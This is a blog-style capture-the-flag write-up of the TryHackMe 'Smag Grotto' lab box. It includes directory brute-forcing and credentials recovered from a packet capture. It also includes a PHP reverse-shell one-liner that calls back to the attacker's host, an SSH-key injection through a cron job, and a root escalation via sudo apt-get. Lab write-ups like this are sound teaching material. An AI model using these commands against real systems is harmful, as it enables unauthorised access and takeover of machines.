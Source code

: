 ```yaml
---
layout: post
title:  "THM - Smag Grotto"
date:   2020-07-31 18:00:00 +1000
category: hacking
---
```


## Introduction
*Do you remember how to analyse packets?*  

This is a easy rated box. Let's begin.

## Ports
nmap says we've got 22 (SSH) and 80 (HTTP) only.  

## Webserver
There's not much on the home page for the website, so we'll run a quick gobuster:

``
root@kali:/opt/tryhackme/smag# gobuster dir -u http://10.10.184.160 -w /usr/share/dirb/wordlists/common.txt
``

This turns up one interesting directory - mail. Checking that we get a message about a packet capture along with a download link. It says you have to download it with wget, although I'm sure that's not actually necessary. Let's do it anyway:

{% highlight shell %}
root@kali:/opt/tryhackme/smag# wget http://10.10.184.160/aW1wb3J0YW50/dHJhY2Uy.pcap
--2020-07-31 03:52:52--  http://10.10.184.160/aW1wb3J0YW50/dHJhY2Uy.pcap
Connecting to 10.10.184.160:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1209 (1.2K) [application/vnd.tcpdump.pcap]
Saving to: ‘dHJhY2Uy.pcap’

dHJhY2Uy.pcap                        100%[====================================================================>]   1.18K  --.-KB/s    in 0s      

2020-07-31 03:52:53 (29.8 MB/s) - ‘dHJhY2Uy.pcap’ saved [1209/1209]
{% endhighlight %}

## PCAP
We can open the packet capture in Wireshark and it's very straightforward, we find a POST request with some important details, being a new subdomain:

http://development.smag.thm/login.php

and some credentials: **helpdesk:REDACTED**

We add development.smag.thm to our /etc/hosts and continue.

## Admin.php
Once we go to development.smag.thm/login.php and authenticate, we get a page that says 'enter a command'. Any number of commands can be tried but none of them appear to do anything....until you start a listener and try a reverse shell:

``
php -r '$sock=fsockopen("10.9.10.123",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
``

Thanks, [pentestmonkey](pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

## On the box
As usual I run linpeas; this time we find a cron job:

``
root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
``

So the job is copying jake's public key to the authorized keys file. Good to know.

## SSH-keygen
Let's generate a new SSH key with ssh-keygen:

{% highlight shell %}
root@kali:/opt/tryhackme/smag# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): ./id_rsa
{% endhighlight %}

Once that's done (with the passphrase of 'yolo'), we can get it on the box and we can append it to the jake_id_rsa.pub.backup file and wait for the cron job to run.

{% highlight shell %}
wget http://10.9.10.123:8000/id_rsa.pub
--2020-07-31 04:17:32--  http://10.9.10.123:8000/id_rsa.pub
Connecting to 10.9.10.123:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 563 [application/octet-stream]
Saving to: 'id_rsa.pub'

id_rsa.pub          100%[===================>]     563  --.-KB/s    in 0s      

2020-07-31 04:17:33 (106 MB/s) - 'id_rsa.pub' saved [563/563]
www-data@smag:/dev/shm$ /bin/cat id_rsa.pub >> /opt/.backups/jake_id_rsa.pub.backup
{% endhighlight %}

## Jake
Now we can login as jake with our passphrase:

``
root@kali:/opt/tryhackme/smag# ssh -i id_rsa jake@smag.thm
``

Running **sudo -l** gives us this:

{% highlight shell %}
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
{% endhighlight %}

And [GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/) does the rest:

{% highlight shell %}
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# whoami
root
{% endhighlight %}
